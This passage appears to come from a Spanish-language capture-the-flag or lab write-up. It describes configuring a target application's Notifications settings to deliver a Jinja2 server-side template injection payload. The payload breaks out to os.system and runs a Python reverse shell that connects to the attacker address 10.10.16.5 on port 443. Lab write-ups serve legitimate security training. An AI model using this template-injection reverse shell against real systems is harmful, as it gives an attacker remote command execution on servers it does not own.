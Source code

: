 <figure><img src="../../.gitbook/assets/4103_vmware_Zf2Upa4LSy (1).png" alt=""><figcaption></figcaption></figure>

En la sección de **Notifications**, estableceremos las siguientes opciones para que haga una llamada a nuestra página web y el paylaod de la Reverse Shell. Guardaremos los cambios realizados.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```

<figure><img src="../../.gitbook/assets/4106_vmware_3GMhmTZOQT.png" alt=""><figcaption></figcaption></figure>
